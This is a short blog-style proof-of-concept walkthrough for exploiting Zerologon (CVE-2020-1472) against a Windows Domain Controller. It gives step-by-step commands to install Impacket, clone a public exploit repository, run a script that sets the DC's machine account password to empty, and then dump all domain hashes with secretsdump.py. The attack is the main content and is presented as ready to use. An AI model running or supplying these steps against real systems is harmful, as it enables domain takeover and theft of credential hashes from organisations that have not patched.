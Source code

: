 ```yaml
---
title: "CVE-2020-1472 Zerologon Exploit POC"
description: "Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller."
date: "2020-11-11"
categories: [PoC]
tags: [windows, zerologon, exploit, impacket]
pin: false
math: true
mermaid: true
image:
  path: "/assets/img/zerologon_poc/zlo.png"
  alt: "Zerologon"
---
```



## Impacket 0.9.22

At the time of this writing, we need to use an updated version of Impacket 0.9.22 or newer for this exploit to work. The current stable version of Impaket is 0.9.21.

![Current impacket stable version](/assets/img/zerologon_poc/impacket0921.png)

But before you install a new Impacket, you might want to create a vm snapshot before things go completely wrong. Alternatively, you can install Impacket in a docker and run as well. You can learn more about it in this [post](https://blog.ropnop.com/docker-for-pentesters/#example-3---impacket "Docker - Impacket"). But for the sake of this post, we will just install on our VM.

After creating a VM snapshot, remove any existing Impacket installation with the following command:

```

> apt remove --purge impacket-scripts python3-impacket

```

Here is the link to the Impacket newer version: [Impacket Link](https://github.com/SecureAuthCorp/impacket/tree/b867b21de5fcfd48686a04487e1ef83c2d1b5e47 "Impacket")

![Impacket 0.9.22](/assets/img/zerologon_poc/impacket0922.png)

```

> git clone https://github.com/SecureAuthCorp/impacket.git

> cd impacket

> pip install .

```


## Exploitaion

We will be using a script from [Risksense](https://github.com/risksense/zerologon "risksense/zerologon")

```

> git clone https://github.com/risksense/zerologon.git

> cd zerologon

```

And now run the script against the Domain Controller:

```python

> python3 set_empty_pw.py <DC-NAME> <ip-address>

```

![running set_empty_pw.py](/assets/img/zerologon_poc/set-set_empty_pw.png)

If the script ran successfully, there should be no password for the DC after that.


## Dumping hashes from DC

```python

> secretsdump.py -just-dc <DC-NAME>\$@10.10.10.1

```

![Hash dumping with secretdump.py](/assets/img/zerologon_poc/secretsdump.png)

And that's it. It's very easy to exploit. Hope you guys enjoyed it.

If you want to learn more about this exploit, Heath (TCM) has done a great video explaining about it. Here is the video: [ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)](https://www.youtube.com/watch?v=6xMGsdD-ArI&ab_channel=TheCyberMentor "ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)")
